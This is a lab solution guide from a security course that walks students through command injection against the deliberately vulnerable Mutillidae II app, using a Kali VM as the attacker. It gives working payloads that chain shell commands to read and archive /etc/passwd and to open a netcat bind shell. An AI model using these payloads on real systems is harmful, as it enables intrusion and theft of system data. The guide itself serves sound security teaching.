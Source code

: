 ## Solution Guide: Command Injection

In this activity, you performed a command injection chaining attack. This kind of practice will help you better understand the attack process so you can be better prepared to defend against it. 

---

Launch the following environments:

- Attacker: Kali Linux
   - Username: `instructor`
   - Password: `instructor`

- Vulnerable Web Server: owaspbwa
   - Mutillidae II


1. In the owaspbwa machine, identify the local IP:

   - Run `ifconfig` to retrieve the local IP of the owaspbwa VM. Or, find the IP from the welcome message in the terminal window of the owaspbwa machine.

2. In Kali, open Firefox and type the IP of the owaspbwa VM into the URL. Navigate to the DNS Lookup page:

   - OWASP 2013 > A1 Injection Other > Command Injection > Other > DNS Lookup

   - Set security level to **Hosed**.

3. Enter the following command to reveal the contents of the `/etc/passwd` file in the **Hostname/IP** box:

   -  `172.16.203.141; cat /etc/passwd`

4. Enter the following command to create a file called `hack.txt` that contains the contents of the `/etc/passwd` file, and then archive and compress it:
   
   - `172.16.203.141; cat /etc/passwd > /tmp/hack.txt; tar czf /tmp/hack.txt.gz /tmp/hack.txt`
   
#### Bonus

Navigate to owaspbwa (the vulnerable web server) > Mutillidae II > OWASP 2013 > A1 Injection (Other) > Command Injection > DNS Lookup

Use the following steps to perform a command injection that allows you to exfiltrate a list of users from the vulnerable web server (owaspbwa) to the attacker's machine (Kali) in a test file named `hacked.txt`.

   - Establish a listener on the vulnerable web server: 
   
       - `172.16.203.141;mkfifo /tmp/pipe;sh /tmp/pipe | nc -l 4444 > /tmp/pipe`
   
   - In the terminal, type the command that connects to the listener on the web server.
   
       - `nc 172.16.203.141 4444`
   
   - Type the command that copies the `/etc/passwd` into a text document called `hacked.txt`.
   
       - `cat /etc/passwd > /tmp/hacked.txt`
   
   - Type the command that reads the contents of `hacked.txt`.
   
       - `cat /tmp/hacked.txt`
   
   What results were returned?
   
   - The contents of the `/etc/passwd` file.

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.  
